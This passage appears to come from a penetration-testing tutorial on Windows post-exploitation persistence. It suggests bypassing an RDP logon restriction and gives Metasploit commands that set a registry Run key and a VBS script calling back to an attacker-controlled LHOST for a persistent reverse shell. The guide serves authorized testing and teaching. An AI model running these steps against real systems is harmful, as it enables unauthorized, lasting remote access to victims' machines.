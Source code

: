 3. When trying to connect using the Rdesktop tool to log into the account created I come across an error message for configuring allow log on for the user !! Try to find a bypass for RDP new member Allow log on through Terminal Services, check if the payload has been created !

![Remote-log-error](Remote-log-error.png)

{{< alert icon="triangle-exclamation" cardColor="#fcf0e8" textColor="#eb974c" iconColor="#eb974c" >}}
If persistence isn't necessary for a penetration test, simply don't do it.
{{< /alert >}}

### 3.2 Registry Persistence Creation
MSF contains two main modules which are designed for Window persistence creation:
- `exploit/windows/local/persistence`
- `exploit/windows/local/registry_persistence`
Both will modify the registry value located within `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` and insert a VBS script in `C:\WINDOWS\TEMP\` which executes the script whenever the user boots up the machine.

1. Execute the following commands on MSF
```bash
meterpreter > background
msf6 > use exploit/windows/local/persistence
msf6 (windows/local/persistence) > set SESSION 1
msf6 (windows/local/persistence) > set STARTUP SYSTEM
msf6 (windows/local/persistence) > set LHOST 172.30.1.21
msf6 (windows/local/persistence) > set LPORT 87
msf6 (windows/local/persistence) > exploit
```

![Meterpreter-Windows-Persistence](Meterpreter-Windows-Persistence.png)
